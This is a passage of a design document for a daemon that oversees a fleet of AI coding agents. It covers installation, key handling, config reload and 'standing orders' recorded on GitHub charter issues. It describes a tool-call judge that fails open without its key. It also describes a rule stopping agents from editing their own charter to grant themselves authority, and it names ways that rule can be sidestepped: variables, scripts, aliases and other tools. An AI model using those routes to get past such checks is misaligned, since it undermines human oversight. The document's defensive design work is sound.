| `excluded_repos` | `[]` | Repositories the switchboard never watches and never reads, whatever an agent's metadata or a charter says (matched case-insensitively, `owner/name`; a bad list is refused at load). It is applied where the watched set is derived, so forwarders, the sweep and triage never see them, and every `gh` read of one is refused at the lowest layer (`GhAccounts.read`, plus `read_pr_json`, `read_ref_state`, the intent reader, the hub's environment for a forwarder or a read, `review measure` and the `reds` artifact read), so no process is started for it: the hub's reads, PR notices, intent reads and `reds` all say it is excluded. Writes are not the watchers' and are unchanged (an agent's own `gh` calls, an intent edit). `status` says each one is excluded, once. Agents working in an excluded repository still launch, send, report and retire |
| `queue_ejections` | absent | The merge queue ejection wake (#584), declared by `bin/queue_ejections.py`: absent for the defaults, or `{"workflow": "ci", "artifact": "failing-tests"}` (either key; plain names). `workflow` is the display name (or file name without extension) of the CI workflow whose `merge_group` runs are watched; `artifact` is the name of the failing-tests artifact those runs upload |
| `gh_users` | `{}` | `"owner/repo"` or `"owner/*"` to a `gh` account name |
| `hold_labels` | `{}` | `"owner/repo"` to `{label, message, allowed_removers}`: the `gh` shim refuses merge, close, approving review, base edit and label removal on a pull request that carries the label (see "The hold label of the `gh` shim") |
| `app_installations`, `app_key_path` or `app_key_command`, `app_permissions`, `app_api_base` | none | `"owner/repo"` to `{app_id, installation_id}`: the `gh` and `git` shims authenticate that repository with a one-hour installation token minted locally from the App key, never the stored login (see "A GitHub App token per repository"). Never this kit's own repository |
| `github_poll_seconds` | `60` | How often a repo with no forwarder is read; at least 15 |

| Fault (Lab only) | What it switches off | Proved by |
|---|---|---|
| `static-repos` | The watched set is read once from the config | M2 |
| `bare-issue-number` | A qualifier is ignored: the caller's repo is used; a decision's id drops its repo | tests of `intent` and `send`, D6 |
| `one-account` | Every repo is read with the default token | M3 |
| `repo-create-allowed` | The judge's rule on `gh repo create` and its kin | M5 |

A decision's identity across repos is done: see "Ids and repos (PR 15)" under
Decisions.
### Install (PR 16)

Until now a person needed `bin/switchboard-trial`, written for an isolated experiment, to try the
system: it starts the daemon, writes the config, installs the pieces and opens the first panes. A real
user should instead point an agent at [INSTALL.md](../INSTALL.md), answer two human steps (a Copilot
login and a key), and have a Chief of Staff running in its own herdr workspace, with the daemon alive
whenever it is needed. There is one Chief of Staff, one fleet and one daemon per user, and the Chief of
Staff never does work.

#### `fleet-switchboard install`

```
fleet-switchboard install [--opencode PATH] [--profile DIR] [--shared-profile] [--gh-user NAME]
                          [--no-service] [--no-herdr-link] [--dry-run] [--uninstall]
```

Idempotent. Every step says `done`, `already done` or `skipped (why)`, and a second run changes nothing.
`--dry-run` prints every step, the profile path it would use included, and writes nothing (a step that
would change something says `would be done`); under a temporary `HOME` it creates nothing in
`~/.config/opencode`, which a test checks. It prints no secret and writes none.

| Step | What it does | Already done when |
|---|---|---|
| `opencode v2` | Finds the OpenCode v2 binary: `--opencode`, else the configured one, else `$XDG_DATA_HOME/fleet-switchboard/v2/...`, else `~/.local/share/fleet-v2/bin/opencode`, else `opencode` on `PATH`. It must be an absolute path and `--version` must say v2. A v1 binary is refused, with the `npm install --prefix` that gets v2 into a private directory (the same one the trial driver runs) | the config already names it |
| `config` | Adds the keys that are missing to `config.json`: `opencode` (the wrapper below), `opencode_executable` (the real binary), `launch_env` (`FLEET_SWITCHBOARD_LAB_PANE=1`, which the private wrapper needs so a pane's v2 keeps its herdr identity; the name is the Lab's, the need is the wrapper's, and a shared profile has no wrapper and gets none), `herdr` (an absolute path when `herdr` is on `PATH`), `github_repos: []`, `jev` with the standard model and `policy.enabled`. `install` **owns exactly two keys, `opencode` and `opencode_executable`** (what a pane runs): when the binary it found or was given differs from the config it replaces both and prints `updated <key> (was <old>)`, because a config from an earlier install otherwise survives and the switchboard then sees no fleet agent (every pane runs a different opencode). With `--shared-profile` there is no wrapper and both keys are the binary path as given: the stable link, not its resolved path, so a package upgrade does not break it. Every other key is never rewritten or reordered; there is no `intent_repo` (the Chief of Staff and the next PR set repos up) | every key is there and the two owned ones are what install would write |
| `profile` | Makes v2's **private profile**, `$XDG_DATA_HOME/fleet-switchboard/profile` (or `--profile DIR`): `config`, `data`, `state`, `cache`, `tmp` and `home`, the `XDG_CONFIG_HOME`, `XDG_DATA_HOME`, `XDG_STATE_HOME`, `XDG_CACHE_HOME`, `TMPDIR` and `HOME` of v2's wrapper, exactly as the trial driver's profile is laid out. It is the one directory the rest of the table writes into, and nothing in it is read by any other program | the directories exist |
| `wrapper` | `$XDG_DATA_HOME/fleet-switchboard/bin/fleet-opencode`, beside the profile: a shell script that runs the configured v2 binary with the profile's XDG variables and `HOME`, exports `FLEET_SWITCHBOARD_BIN`, `_SHIMS` and `_STATE` (the variables the two plugins read), puts the kit's `bin` first on `PATH`, strips every credential-shaped variable by shape (`_API_KEY`, `_SECRET`, `_PASSWORD`, `_ACCESS_KEY`, `_ACCESS_KEY_ID`, and the `GH_`, `GITHUB_` and `COPILOT_` prefixes), then gives the agents the `gh` token as `GH_TOKEN`, asked from your real gh config at every start before `HOME` is replaced (`--gh-user` pins the account; no token is written anywhere), and drops herdr's pane identity unless `FLEET_SWITCHBOARD_LAB_PANE=1` (the config's `launch_env` sets it for panes). These are the trial wrapper's rules, and a test runs both for the same canaries. The config's `opencode` is this file and `opencode_executable` the real binary. v2 run by its own name gets none of it. With `--shared-profile` nothing would run the wrapper, so it is not written (`skipped`), and `--uninstall` still removes one an earlier install made | the file is current |
| `agents`, `skills`, `skills path`, `fleet-hooks plugin`, `decisions plugin`, `todolist plugin` | The kit's four agent definitions (the model placeholder filled with `github-copilot/claude-sonnet-5.5`), its skills, the `fleet-hooks` plugin, and the Decisions TUI plugin with its `cli.json` entry, into the private profile's `config/opencode`. The skills go to `$XDG_DATA_HOME/fleet-switchboard/skills`, named in `opencode.json` under `skills.paths`, because v2 also reads skills from the home directory and a configured path is read after those and wins. These are the functions `bin/switchboard-trial` calls: there is one path, and the trial passes its own profile | each file is identical |
| `herdr integration` | herdr's OpenCode integration (the plugin that reports an agent's status), into the private profile: `herdr integration install opencode` run with the profile's `HOME`, whose `.config/opencode` is a link to the profile's `config/opencode`. herdr writes to `$HOME/.config/opencode` and ignores `XDG_CONFIG_HOME`, so the private `HOME` and the link are what send it there. `install` reads `herdr integration status` first and refuses (installing nothing) when the path it names is not under the private `HOME`. This is how `proof.ensure_herdr_integration` works for the trial's profile. Skipped with `--no-herdr-link` and with `--shared-profile` | herdr says `current` |
| `herdr plugin` | `herdr plugin link <repo>/herdr` unless `--no-herdr-link`. It prints what it will do first (below) | `herdr plugin list` shows `fleet-switchboard` |
| `cli link` | Puts `fleet-switchboard` on `PATH`, so a Chief of Staff's shell can run it (without it one fell back to reading GitHub only and reported "nothing waiting" with no switchboard evidence): a symlink in `~/.local/bin` when that is on `PATH`, else in the first writable directory of `PATH` under `HOME`, else in `~/.local/bin` with the exact `export PATH=...` line to add. It says which. It points at this checkout's `bin/fleet-switchboard`, never overwrites an existing different file or link (it reports it and leaves it), and repairs a link to a checkout that is gone. A moved or deleted checkout breaks the link; running `install` again from the new one repairs it. `--uninstall` removes only a symlink that points at this checkout | a link to this checkout is there |
| `service` | Writes the LaunchAgent or the systemd user unit and loads it unless `--no-service` (below) | the file is current and loaded |
| `daemon` | Runs `ensure`, then prints `status`, whose first line says so when there is no key | the daemon already held its lock |

**The todo plugin.** `todolist plugin` installs the todo list OpenCode v2 lacks (the `todowrite` and `todoread` tools only; the plugin's TUI sidebar needs a built `dist/tui.js`, which is not installed). It is [aiev/opencode-todolist](https://github.com/aiev/opencode-todolist) 0.4.2 (MIT), vendored unmodified in `plugins/opencode-todolist/`; the credit and licence are in its `NOTICE.md` and `LICENSE`. `install` writes into the private profile's `config/opencode`, never `~/.config/opencode`: it copies its `src/` byte for byte into `opencode-todolist/` there and writes a one-line loader, `plugins/opencode-todolist.ts`, that re-exports it. A loader is needed because a `plugins` entry naming the directory does not load: its `package.json` exports `./dist/index.js`, which is never built. A loader or source file the kit did not write is refused, never overwritten; `uninstall` removes only files that still match the kit.

**The profile is private, and `~/.config/opencode` is never written.** The directory OpenCode reads by
default (`$XDG_CONFIG_HOME/opencode`, `~/.config/opencode` without the variable) is read by the person's
ordinary OpenCode too, and the owner's own fleet may still run on OpenCode v1 on the same machine. A
v2-shaped plugin (`fleet-hooks.js`), a `fleet-decisions` directory, `skills.paths` and a `cli.json` in
that directory can stop every v1 agent at start. So `install` writes only into the private profile above
and runs v2 only through `fleet-opencode`, which points v2 at it; the daemon reads the user's real
switchboard config and reaches v2 only through that wrapper, so it, `bootstrap` (which launches the Chief
of Staff through the configured `opencode`) and the LaunchAgent or unit all use the wrapper and the private
profile without a line of their own. `--shared-profile` puts the pieces in the shared directory anyway; it
says in plain words, before anything is written, that the ordinary OpenCode will read the files, and it
installs no herdr integration and keeps the real `HOME`. A Copilot login made through `fleet-opencode
auth login` lives in the private profile too (INSTALL.md, STEP 17). The fault `shared-profile-default`
makes the default shared again; the test that the shared directory is untouched fails under it.

`--uninstall` reverses the service, the herdr link, the `cli link` (only a symlink that points at this checkout), the herdr integration (`herdr integration uninstall
opencode` with the private `HOME`, only when its status names a path there), the home link (only when it is
the link `install` made) and the profile pieces, and leaves the config, the state and every session
(the profile's `data`) alone. It never reads or removes anything in the shared directory unless
`--uninstall --shared-profile` is given. A file the user edited, or a plugin they added to `cli.json`, is
kept. A daemon that is running keeps running until it exits.

**The herdr link, and what it will do.** herdr has one server, so a linked plugin's hooks run for every
pane in it, including panes that run another agent. The plugin's startup hook runs
`fleet-switchboard ensure`; its event hooks (pane created, closed, exited, agent detected, agent status
changed) run `fleet-switchboard poke`, which is silent, returns at once, and only asks the daemon for a
pass. Nothing is typed into any pane and nothing is sent anywhere. `install` prints this before it runs
`herdr plugin link`, and INSTALL.md makes the person say yes first. This is the reason the manifest was
left unlinked in PRs 3 to 14 ([the cutover runbook](switchboard-cutover.md) still says to read the question
before linking by hand).

#### The service

| | macOS | Linux |
|---|---|---|
| Template | `templates/com.fleet-kit.switchboard.plist` | `templates/fleet-kit-switchboard.service` |
| Written to | `~/Library/LaunchAgents/com.fleet-kit.switchboard.plist` | `$XDG_CONFIG_HOME/systemd/user/fleet-kit-switchboard.service` |
| Loaded by | `launchctl bootstrap gui/$(id -u) <plist>` | `systemctl --user daemon-reload`, then `systemctl --user enable --now fleet-kit-switchboard.service` |
| Checked by | `launchctl print gui/$(id -u)/com.fleet-kit.switchboard` | `systemctl --user is-enabled fleet-kit-switchboard.service` |
| Removed by | `launchctl bootout gui/$(id -u)/com.fleet-kit.switchboard`, then the file | `systemctl --user disable --now ...`, the file, `daemon-reload` |
| Logs | `launchd-stderr.log` and `launchd-stdout.log` in the state directory | the journal |

The service runs `fleet-switchboard run --standby`: `RunAtLoad` and `KeepAlive` (`Restart=always`) keep it
up, and a start every 30 s at most. `--standby` is the only addition to `run`: if another daemon already
holds the single-instance lock (herdr's startup hook or a command's ensure-on-use may have started one
first) it waits for the lock instead of exiting, so launchd or systemd does not restart it in a loop, and
it takes over when that daemon goes. `ensure` keeps working beside it: if the service holds the lock,
`ensure` says `running`. The templates hold no secret: the key comes from its file. `PATH` is the kit's
`bin`, the directories of `gh`, `herdr` and the python, then the usual places, because a service has
almost no `PATH` of its own; `XDG_CONFIG_HOME` and `XDG_STATE_HOME` are passed so the service reads the
config the installer wrote. A test lints the plist with `plutil -lint` where `plutil` exists, parses the
unit, and fails on a secret, an unfilled placeholder or a personal name in either.

#### The decision-model key

Without a key the classifier and the tool-call judge fail open, so an install can look healthy and judge
nothing. Two things follow: the key is never text, and its absence is loud.

- **Where it comes from.** The variable named by `jev.key_env` if it is set, else the file `jev.key_file`
  (default `$XDG_CONFIG_HOME/fleet-switchboard/jev.key`). The file must be a regular file (not a link)
  owned by you with no group or other permissions; anything else is refused with the reason, and treated
  as no key. Only the daemon reads it: `judge-tool` still asks the daemon over its socket.
- **`fleet-switchboard key set`** reads the key from standard input (no echo at a terminal; a pipe
  works), writes the file atomically with mode 0600 (a temporary file in the same directory, then a
  rename), and prints only `key saved`. A key with spaces is refused without being shown. **`key status`**
  prints `file`, `environment` or `none`, and `environment (only this shell)` when the variable is all there
  is (no key file). There is no `key show`, and the key is never an argument.
- **Never text.** The key appears in no argument list, log, audit line, error, fact, prompt or status. One
  test runs a judgement, `status` (text and JSON), `key status`, `decisions` and a failing call with a
  made-up key in its file, and scans every output and every file the run wrote for it.
- **Saying so.** When `jev` is configured with no `replay` and no key is found, `status` begins with
  `No decision-model key: messages are not classified and tool calls are not judged.` before any line that
  looks healthy; `status --json` carries `key: {source, notice, problem}`. It is a warning, not a failure:
  the exit code is unchanged. Fault `key-missing-silent` leaves the line out (scenario E3).
- **The daemon's key, not the shell's.** The key in a shell's environment is not the key a service has: a
  daemon started by launchd or systemd has none of your variables, so the judge and the classifier fail
  open while `status`, run from a shell that has the variable, looks fine. The daemon records where its own
  key came from (`file`, `environment`, `none`) in `daemon.json` in the state directory, beside the pid it
  writes into `run.lock`, once it holds the lock; `status` reads that record (only when its pid is the
  running daemon's, so a dead daemon's record is ignored) and reports the daemon's source. A file is read
  when needed, so one saved after the daemon started counts; a variable is fixed at its start. When the
  shell has the variable and the running daemon does not, or when a service is installed and there is no key
  file (a variable cannot reach it), the first line says so in plain words and says to run
  `fleet-switchboard key set`. `status --json` carries `key: {source, cli, daemon, file, notice, problem}`.
  Fault `key-env-only-unseen` leaves that warning out; its control is the test that expects it.

`status` also gains four lines: `daemon` (running with its pid, or not running), `key` (where it comes
from), `plugin` (whether `herdr plugin list` names `fleet-switchboard`) and `service` (whether the file
is installed; it never runs `launchctl` or `systemctl`).

#### The config is reloaded when the file changes

The daemon built its engine once, so an edit to `github_repos`, `gh_users`, `intent_repo`, `poll_seconds`,
`jev`, `policy` or the herdr and OpenCode paths did nothing until someone restarted it, and nothing said so.
Now each pass the daemon compares the config file's mtime and size with what it loaded (`ConfigWatch`).

- **Stable first.** A changed file is read only after it has stayed the same for a second, so an editor that
  writes twice is one reload, and a half-written file is only ever read as the invalid file it is. While a
  change settles the daemon waits one second, not a whole poll, between passes.
- **One validator.** The file is read with the validator the start path uses (`load_runnable_config`). A
  valid file that says the same as the loaded one (a touch) reloads nothing.
- **A valid change starts the daemon over in place** (`os.execve` of the same interpreter and script, `run`
  without `--standby`), so the engine, the watch set, the forwarders, the judge server, the accounts and every
  client are rebuilt together and nothing is half applied. Before the exec the forwarders are stopped and the
  judge socket is closed, and the audit line `config.reloaded` says which (`forwarders_stopped`) and names the
  keys that changed, never their values. A `config.reload_failed` line and a hub that starts again are the
  answer if the exec itself cannot run.
- **The lock and the pid survive.** `exec` keeps the pid. `run.lock` is held by an open file description, and
  the daemon marks its descriptor inheritable and names it in `FLEET_SWITCHBOARD_LOCK_FD`; the new process
  adopts that descriptor (after checking it is the lock file) instead of opening a second one, which would
  conflict. The lock is therefore never free: no `ensure` can start a second daemon in the gap, and a test
  runs a real child through a real `exec` while the parent polls the lock for a gap and tries to take it.
  What is briefly absent is the judge socket (milliseconds: `judge-tool` fails open for that moment, as
  it does whenever the daemon is down) and the poke socket (pokes are silent and the next pass derives
  everything).
- **An invalid file never stops the daemon.** It keeps running on the config it has. The audit gets
  `config.invalid` once, with the reason (never a secret: the reasons are the validator's own, which carry no
  file content), and `status` shows `config      INVALID since <time>: <reason>; still running on the config
  loaded at <time>` until the file is fixed; a fix that says what the daemon already runs is
  `config.recovered`, one that says something new reloads. `status` also shows `config loaded <time>`, from
  the daemon's own record in `daemon.json`, like its pid.
- **Faults.** `config-read-once` ignores a change; its control is the unit tests and scenario C2 (an edit adds a
  watched repo and the forwarder starts without a restart; a broken edit leaves the daemon watching and says so;
  the fix is applied).
- **`fleet-switchboard restart`** stops the daemon by its recorded pid (SIGTERM, and nothing stronger) and runs
  `ensure`, so nobody has to `kill` a pid by hand. It looks at the process first and refuses a pid that is not a
  switchboard `run`. Under a service, the service starts the new daemon and `ensure` says it runs.
- **The daemon command.** `fleet-switchboard daemon status | start | stop | restart` replaces the manual routine (signal the
  process, wait for `run.lock` to clear, run `ensure`, check the decisions file and the forwarders), whether the daemon was
  started by a launchd job or by `ensure`. `status` says whether it runs, how it was started (launchd when the loaded job's pid
  is the lock's pid), its pid, since when (`daemon.json`) and whether it is healthy (the decisions file is fresh and written since
  the start, no forwarder alarms); it exits 1 when not running or unhealthy. `stop` sends SIGTERM only to a pid that `daemon.json`
  and `run.lock` agree on and whose command line is this program's `run` (else it says so and signals nothing), or unloads the
  launchd job with `launchctl bootout` so launchd does not respawn it, and waits up to 15 s for the lock to clear. `start` loads or
  kickstarts the launchd job when the plist exists, else uses the `ensure` path and says so in one line (no `launchctl` error is
  shown), then waits up to 120 s for a healthy daemon. `restart` is `stop` then `start` and prints what it did and the seconds
  taken. No state file is touched; one command at a time (a second says so and exits 1); every wait is bounded. The older
  `restart` command (above) remains, and uses the same process check and stop wait.
  The process check is a same-user guardrail (the lock and the record are files that user can write), not a boundary.

The one thing a reload cannot do is recover from a file that was valid when it was checked and is invalid when
the new process reads it a moment later (two checks, milliseconds apart): the new daemon then exits like any
start with a bad config, and the service starts it again once the file is fixed.

#### A slow GitHub catch-up cannot freeze the pass

Found on a real machine: the first catch-up of a busy repo (2135 items, nearly all of them for no agent, and a
`workflow runs` read that timed out) kept the daemon busy for about two and a half minutes, and `decisions`
said the daemon was not updating (the list is stale after 180 s). What was measured, with a fake `gh` that
takes a second a call and a repo of 1200 comments nobody owns: the catch-up reads themselves are a handful of
calls and run in the hub's own thread (5 calls); the pass was blocked by routing, which in the main pass made
one `gh api` lookup per unowned item (1200 calls, 1200 s, the audit gaining a `github.unrouted` line each).
Changed:

- Routing has a time budget per pass (`GITHUB_ROUTE_SECONDS`, 5 s; each lookup has its own 8 s timeout). What
  does not fit stays queued and is routed on the next pass; the same pass then took 5 s and 5 calls.
- Items that belong to nobody are audited as one `github.unrouted` line per repo per pass, with a count and the
  first 20 keys, not one line each. `github.catch_up` likewise names at most 20 keys and gives the count.
- One catch-up keeps the newest 500 items (`GITHUB_CATCHUP_ITEMS`) and says so, and stops reading after its time budget
  (`source_budgets.catch_up`, 90 s by default), leaving the rest to the next one.
- A secondary read (reviews, check suites, workflow runs) has a 10 s timeout and, once it fails, is not tried
  again for 10 minutes; it is reported when it fails, not every pass, and the catch-up that includes it is
  retried when the backoff ends, not every minute.
- Fault `catch-up-blocks-pass` removes every bound; the test that a slow catch-up leaves the pass inside its
  budget (and the decisions file fresh) fails under it: the same pass takes 1200 s.

#### Reads move forward only

The owner's decision: there is no need to read unbounded history. The audit log of a real machine showed 13
catch-ups in about an hour on two busy repos, 2,135 items per read, and a full look-back window read after
every forwarder restart; what was measured above (the cost was reading history nobody owns and routing every
item) says cut that root.

- **A read marker per repo**, `$STATE/github-read.json` (`{"owner/repo": "<iso>"}`; the one new stored file,
  beside `reminders.json`), written atomically (temp file, rename) at most once per pass. It moves to the start
  of each catch-up whose primary reads answered, and to the time of a live webhook (but not while a catch-up
  still has a gap to close, or the webhook would hide the gap). It is a disposable cursor: deleting it means a
  fresh start.
- **A fresh start reads nothing.** A repo with no marker (first run, a repo that just joined the watched set,
  the state deleted) gets no catch-up read: its marker is set to now and it moves on with live events, zero
  history calls. Nothing is replayed and nothing is delivered twice, because the transcript's keys still
  stop a repeat. The awaiting-user read (open issues with the label: current state, not events) stays.
- **With a marker, only the gap**: from the marker minus a minute (two poll intervals for a polled repo) to now,
  clamped to `github_lookback_hours`; a marker older than that is clamped and one `github.catch_up.skipped`
  line says older events were skipped. Comments and issues use the server's `since`; pulls, newest first, stop
  paging at the first page older than the window; reviews and check suites are read only for pulls updated in the
  window.
- **Every list read is paged with a hard cap** (`GITHUB_PAGE_CAP`, 5 pages of 100), and one catch-up keeps at
  most 500 items. A cap that is hit stops the read, audits one `github.catch_up.truncated` line (the capped
  reads, the items skipped) and still advances the marker: forward only, no chasing the rest.
- **Secondary reads are best-effort**: reviews, check suites and workflow runs that fail are reported once per
  episode (the 10-minute back-off stays) and are not retried for the window they missed; live webhooks cover
  them. A failed primary read (comments, issues, pulls) does not move the marker and retries after a minute with
  the same bounded window.
- **A forwarder restart in a daemon run** reads from the in-memory marker (the last read or webhook), a short gap.
- **`status`** shows `read to <age> ago` per repo. Faults `catch-up-on-fresh-start` (a repo with no marker reads
  the look-back window) and `full-window-every-time` (a forwarder repo reads the whole window on every
  catch-up), each with a test whose control fails. Scenario G3 changed: its first comment moved to just before
  the 30-minute read, because a read now starts a minute before the last marker, not at the start of the
  window, so the dedupe control still has an item read twice to prove it.

#### The daemon is alive when it is needed

`send`, `report`, `launch`, `handoff`, `comment`, `remind`, `decisions`, `intent` and `bootstrap` call
`ensure_daemon` first: quiet, and bounded to two seconds. If the daemon cannot be started, the command
still does its work and prints one warning to stderr that names `daemon.log`. A config the daemon could not
read is the command's own error, said once. `judge-tool`, which runs inside v2 on every tool call, never
does this, and `status`, `poke`, `whoami`, `pending` and `intents` do not either (a test asserts both).
Fault `no-ensure-on-use` skips it (scenario E1).

#### `fleet-switchboard bootstrap [--workspace LABEL] [--dir DIR] [--no-focus]`

Opens the Chief of Staff for the first time, or again. Everything is derived from facts; no id is stored.

1. A fleet agent named `cos` that has a herdr pane: refused, naming its pane and session. There is one.
2. Else a v2 session whose fleet name is `cos` (the newest, from `session.list`): it is resumed with the
   existing `resume_agent` in the workspace labelled `LABEL` (default `Chief of Staff`), or in a new one
   when that workspace is gone.
3. Else a herdr workspace is made (`herdr workspace create --cwd DIR --label LABEL --focus`: the person
   wants to see it; `--no-focus` for scripts) and `cos` (agent `chief-of-staff`, no `reports_to`) is
   launched in it with the existing `launch_agent`. A first run always makes a new workspace and never
   takes an old one that happens to share the label. The empty shell pane a new workspace opens with is
   closed once the launch is verified, and only that pane.

The brief tells it to introduce itself, run `fleet-switchboard status`, say plainly what is missing (the
key, the GitHub repos to watch, the daemon, the plugin, the service), and ask what the person wants to
work on. `DIR` defaults to the current directory. The launch and the resume are not rewritten.

A first run that died after it made the session leaves a Chief of Staff with no brief, and the person
saw it come up blank. So the resume derives from the transcript whether the brief was sent: a message whose
metadata carries `fleet.brief` (the metadata the brief is always sent with, by the one `send_brief`). If the
session holds none, `bootstrap` sends it once after the pane is verified; if it holds one, it sends nothing,
so a third run never repeats it. A transcript too long to read to its end is taken to hold one. A failed
send closes the pane that resume opened (as a failed launch does) and the next run tries again. The output
gains `brief`: `sent` or `kept`. Only `bootstrap` does this: `resume_agent` itself, used by `launch --resume`,
has no brief to send (it does not know one), so a second code path there would be a different feature.

#### CLI reference (PR 16)

| Command | Effect |
|---|---|
| `install [--opencode PATH] [--profile DIR] [--shared-profile] [--gh-user NAME] [--no-service] [--no-herdr-link] [--dry-run] [--uninstall]` | Above. Exit 0, or 1 with one line saying why it stopped |
| `key set` / `key status` | Above. `set` exits 2 for an empty or spaced key and 1 if it cannot write the file; `status` exits 1 only when a key file is refused |
| `bootstrap [--workspace LABEL] [--dir DIR] [--no-focus]` | Above. Prints one JSON line: `action` (`created` or `resumed`), `brief` (`sent` or `kept`), `workspace`, `pane`, `session`, `tab`. Exits 1 when a Chief of Staff already runs |
| `restart` | Above: stop the daemon by its recorded pid (only a switchboard `run`), then `ensure`. Exit 1 when it refuses or the daemon does not stop in 15 s |
| `run [--once] [--poll S] [--standby]` | `--standby` is new: wait for the lock instead of exiting |
| `status [--json]` | Gains the key notice and the `daemon`, `key`, `plugin` and `service` lines |

**Scenarios and faults.** The ids I1 to I4 are PR 6's, so the three new scenarios are `E1`, `E2` and `E3`
(catalog above). Faults `key-missing-silent`, `no-ensure-on-use`, `shared-profile-default` and
`key-env-only-unseen` each have a control that fails (the last one's is a unit test of `install`: it must leave `~/.config/opencode`
untouched, and does not under the fault); E2 has none to switch off, so its control is a variant that expects a
second Chief of Staff and fails. The offline runner gained the steps `use`, `bootstrap` and `close-agent`
and the oracles `status_first_line` (PR 15's `status_says` reads the GitHub lines), `bootstrap_says` and `fleet_sessions`. Install steps are unit-tested with
a fake runner and a temporary `HOME` (a fake OpenCode, herdr, `launchctl` and `systemctl`), not scenarios.

**Lab proof (2026-10-06).** In the Lab only, with a Lab v2 wrapper on a fresh data directory (so the
Lab's own sessions were untouched), the Lab's scripted model, the real herdr, and a throwaway workspace
labelled `Switchboard Lab PR16 throwaway`:

1. `bootstrap --workspace <label> --dir <Lab repo> --no-focus` printed `action: created`, made workspace
   `wV` with one pane, a `cos` session with `metadata.fleet {name: cos, role: chief-of-staff}`, and
   the brief as a fleet prompt, which the scripted model answered. `status` listed `cos idle` in that pane;
   herdr's pane count for the workspace was one (the empty shell pane was closed). Ensure-on-use had
   started the daemon: `status` showed `daemon running`.
2. A second `bootstrap` exited 1: `a Chief of Staff already runs: cos in pane wV:p2 (session ses_...)`.
3. After closing that pane (the last pane, so herdr removed the workspace), a third `bootstrap` printed
   `action: resumed`, the same session, in a new workspace `wW`; there was still exactly one `cos` session.
4. An earlier run against the Lab's own data found ten old `cos` sessions there and resumed the newest,
   which is the derive-from-facts rule working on a Lab that had been used before.

Everything opened was removed: the throwaway workspace, the daemon (by the pid `ensure` started), the
scripted model and the proof's v2 service and data; the Lab's own service stayed stopped and `lab status`
read as before.

**Not verified live.** Loading the LaunchAgent with `launchctl` and the systemd unit with `systemctl` (the
installer's calls are tested with fakes; the plist passes `plutil -lint`, the unit parses); `herdr plugin
link` and its hooks; a first-time `bootstrap` with `--focus` (the Lab runs used `--no-focus` so the
owner's screen did not move); `install` against a real v2 binary and a real profile; a real `herdr
integration install opencode` under the private `HOME` (the trial's profile does this, the installer's
same steps are tested against a fake herdr); a v1 OpenCode reading the shared directory after an
install (it is not written any more).
### Standing orders (PR 17)

The owner tells an orchestrator "self-certify and approve deploys in this repo",
and it forgets: the order lived in a chat that compaction later discarded. The
fix is that an order is a fact the system supplies again, not something an agent
is trusted to remember.

**Where an order lives.** On the project's charter issue, in a `## Standing
orders` section of the body, one order per bullet:
`- <text> (ordered by <name>, <YYYY-MM-DD>)`. The legacy one-line `Standing
authority: ...` stays valid and counts as one more order. One parser,
`parse_orders(body)`, returns the list (`parse_standing_authority` answers
through it, joined with `; `); the section inside a fenced block is ignored, as
the old line is. Nothing is kept in a file: GitHub is the only copy, as it is
for Intent.

**Who writes one.** Only the Chief of Staff, or you on GitHub. The Chief of
Staff has `edit: deny` and never does project work; recording your orders is
record-keeping, and it goes through one command (see the agents table).
`orders add` and `orders remove` identify the caller from its pane, as `send`
does (`--from` is Lab only), and refuse any role but `chief-of-staff` with a
clear message and an `orders.refused` audit event. The write is the narrowest
one possible: `IntentReader` is still GET-only, and `write_issue_body` runs
`gh api repos/<repo>/issues/<n> --method PATCH --input -` with `{"body": ...}`
through the same injected runner (the account's token reaches `gh` only through
the child's environment, as everywhere: the read and the write both use the
charter's own repo's `gh` account, `GhAccounts`). It reads the body, changes only the
section (made at the end of the body when missing, deleted when its last order
goes, every other byte kept), writes, reads back, and once more when the readback
does not show the change; when it still does not, it fails loudly and records
nothing. A failure and a success are both audited, before and after, with who
ordered, the charter (`owner/repo#N`, in the audit subject) and the order's text (the text is not a secret). A window
remains between the read and the write, as for any edit of an issue body: the
readback is what catches a lost write, not a lock.

**Many repos (PR 15 semantics).** `--charter` takes `owner/repo#N`; a bare number is
in the caller's own repo (its `metadata.fleet.repo`), else `intent_repo`, and with
several repos watched a caller with no repo is refused with the choices listed,
as for every issue reference. Each repo's charter is read and written with that
repo's own account, so with two repos each orchestrator gets only its own
repo's orders (scenario O5; the `one-account` fault is its control). The
fact's repo is the agent's own `repo`, else `intent_repo`.

**The judge reads them.** `resolve_policy_context` returns every order, joined
with `; ` and clipped to 600 characters for the model's state, so the existing
`speaks_for_you` question sees all of them; they can only stop a pointless
question, never loosen a deny (invariant 9 is untouched). Beside the model's
questions there is one deterministic rule, with no model call: a shell call by
any agent whose role is not `chief-of-staff` that runs `gh issue edit` on the
charter it works under, or `gh api` with PATCH, PUT or DELETE on
`repos/<repo>/issues/<charter>` (the repo named by `--repo`, `-R`, a URL, an
`owner/repo#N` word or the api path must be the charter's own repo: issue 1 of
another repo is not this charter), answers `speaks_for_you` and `hard_to_reverse`
both: an agent must not grant itself authority. The limits are real: it is a
guard, not a proof. A shell can build the call from pieces this rule never sees
(a variable, a script, an alias, another tool), and it knows only the agent's own
charter. The branch protections, the audit log and the token's reach are what
stand behind it.

**The note.** A new fact kind `orders` for every fleet agent whose session
metadata names a `charter`. Its key is
`orders:<owner/repo>#<charter>:<hash8 of the orders text>:<compaction id, or "start">`, where
the compaction id is the id of the newest *completed* compaction message in that
agent's transcript. A running or failed compaction does not change it. It is
derived on every pass and stored nowhere: it is pending exactly when no such key
is in the agent's transcript or inbox (the `delivered_keys` read the delivery
rule already makes), so a daemon restart repeats nothing, a charter with no
orders sends nothing, and the note goes out again only after a completed
compaction (the id changed) or an edit (the hash changed). Orders reach an agent
at its start, after each compaction and when they change; not on every message
and not on every model call. This is the one path: the launch brief does not
carry orders, the note does.

It is a `Fact` with `orders` set, which `decide` treats as neither a rider nor a
batched fact: it goes first and alone, at once, as a note (a steered synthetic,
no turn, never a wake) even to an idle agent, by the same `plan` and `deliver` as
everything else. `compose` renders
`[switchboard] standing orders for <agent> (charter #N):` (`web#N` when several repos are watched, as every message names an issue), each order on its own
line, and a last line: "These are the owner's standing instructions for this
charter. Act on them without asking again, within their words. They cover
nothing they do not name." Every order is carried whole. The
description (PR 13) says `switchboard: standing orders for <agent>`.
`convert_lapsed_notes` skips a note whose every key is an `orders:` key, so an
unread orders note never becomes a wake. A fact key is now unique per recipient
rather than across the fleet, because every agent of a charter has the same
orders key.

**Cost.** Reading the charter reuses the judge's warmed, cached read: the
daemon's warmer already refreshes each session's context, which now carries the
